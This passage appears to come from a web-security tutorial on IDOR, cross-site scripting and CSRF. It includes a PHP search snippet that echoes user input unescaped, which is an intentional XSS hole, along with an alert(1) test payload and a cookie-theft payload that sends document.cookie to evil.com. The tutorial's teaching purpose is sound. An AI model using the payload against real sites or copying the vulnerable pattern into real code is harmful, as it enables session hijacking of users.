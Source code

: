 *An attacker can view others information by changing user id value.*

## XSS or CROSS SITE SCRIPTING

The exploitation of a XSS flaw enables the attacker to inject client-side scripts into web pages viewed by users.
Due to the ability to execute JavaScript under the site’s domain, the attackers are able to:
Read all cookies (that are not protected by HttpOnly), including session cookies. By doing so, an attacker could take over the session.

**Example:**

 > PHP API for search

Assume a site does has a search box with code as the following:

    <?php
     // Code for performing the actual search
     } else {
    echo "Could not find any pages when searching for " .$_GET['query'];
     }
     ?>

> https://example.com/search.php?query=test

This would output the user input straight to the HTML-document. As such, if a user would give HTML as input the browser would be required to render that.

**Example:** 

If user enters in the search box <script>alert(1)</script>

> https://example.com/search.php?query=<script>alert(1)</script>

It would result in the following that the browser would try to render.

Could not find any pages when searching for <script>alert(1)</script>

That is perfectly valid HTML! **and the script will get executed.**

**To show the danger of this, imagine an attacker getting the user to click a link as the following:**

    https://example.com/search.php?query=<script>document.InnerHTML += "<img src='http://evil.com?cookie="+document.cookie+"'>"</script>

**It would result in this, which sends the cookies to the attacker. If there for example were sessions id, an attacker could hijack the session.**


## CROSS-SITE REQUEST FORGERY

A malicious website will send a request to a web application that a user is already authenticated against from a different website. This way an attacker can access functionality in a target web application via the victim's already authenticated browser.

let’s say examplebank.com has online banking that is vulnerable to CSRF. If I visit a page containing a CSRF attack on examplebank.com but am not currently logged in, nothing happens. If I am logged in, however, the requests in the attack will be executed as if they were actions that I had intended to take.
